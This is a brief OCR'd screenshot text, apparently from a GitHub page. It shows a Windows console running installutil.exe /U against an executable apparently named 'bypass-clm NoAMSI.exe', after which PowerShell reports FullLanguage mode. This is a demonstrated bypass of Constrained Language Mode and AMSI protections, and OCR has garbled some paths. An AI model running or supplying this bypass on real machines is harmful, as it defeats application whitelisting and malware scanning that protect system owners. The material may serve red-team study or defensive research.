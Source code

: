 C:\Windows\Microsoft.NET\Framework644.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasksypass-clmNoAMSI.exe
Microsoft (R) .NET Framework Installation utility Version 4.8.3752.0
Copyright (C) Microsoft Corporation.  All rights reserved.

Banner

PS C:\Windows\Tasks> $ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode
FullLanguage
PS C:\Windows\Tasks> 
